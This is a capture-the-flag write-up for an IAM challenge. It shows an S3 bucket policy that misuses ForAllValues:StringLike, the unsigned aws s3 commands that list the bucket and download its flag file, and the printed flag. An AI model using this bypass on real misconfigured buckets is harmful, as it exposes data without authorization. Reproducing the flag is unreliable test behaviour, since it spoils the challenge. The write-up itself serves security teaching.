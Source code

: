 ```yaml
---
tags:
  - IAM
  - S3
title: THE BIG IAM Challenge - Admin Only
description: ForAllValues:StringLike may not be what you think
reference: https://thebigiamchallenge.com/challenge/4
---
```

## Challenge

We learned from our mistakes from the past. Now our bucket only allows access to one specific admin user. Or does it?

## Solution

### 1. View the provided IAM Policy

`ForAllValues:StringLike`??

```json
{ "Version": "2012-10-17", "Statement": [ { "Effect": "Allow", "Principal": "*", "Action": "s3:GetObject", "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321/*" }, { "Effect": "Allow", "Principal": "*", "Action": "s3:ListBucket", "Resource": "arn:aws:s3:::thebigiamchallenge-admin-storage-abf1321", "Condition": { "StringLike": { "s3:prefix": "files/*" }, "ForAllValues:StringLike": { "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin" } } } ] }
```


### 2. use `aws s3 cli` randomly since I have no idea

Somehow `--no-sign-request` can "break" the IAM policy.


```
> aws s3 ls s3://thebigiamchallenge-admin-storage-abf1321/files/ --no-sign-request

2023-06-07 19:15:43         42 flag-as-admin.txt

2023-06-08 19:20:01      81889 logo-admin.png
> aws s3 cp s3://thebigiamchallenge-admin-storage-abf1321/files/flag-as-admin.txt /tmp/flag.txt --no-sign-request

Completed 42 Bytes/42 Bytes (546 Bytes/s) with 1 file(s) remainingdownload: s3://thebigiamchallenge-admin-storage-abf1321/files/flag-

as-admin.txt to ../../tmp/flag.txt

> cat /tmp/flag.txt

{wiz:principal-arn-is-not-what-you-think}
```

### Why `--no-sign-request` works?

1. The flag `--no-sgn-requets` means "Do not sign requests. Credentials will not be loaded if this argument is provided."
2.  `ForAllValues` – This qualifier tests whether the value of every member of the request set is a subset of the condition context key set. The condition returns `true` if every context key value in the request matches at least one context key value in the policy. It also returns `true` if there are **no context keys in the request** or if the context key value resolves to a null dataset, such as an empty string.
3. The IAM policy for authorizting S3 `/files`'s **List** permission condition is `"ForAllValues:StringLike": { "aws:PrincipalArn": "arn:aws:iam::133713371337:user/admin" }`
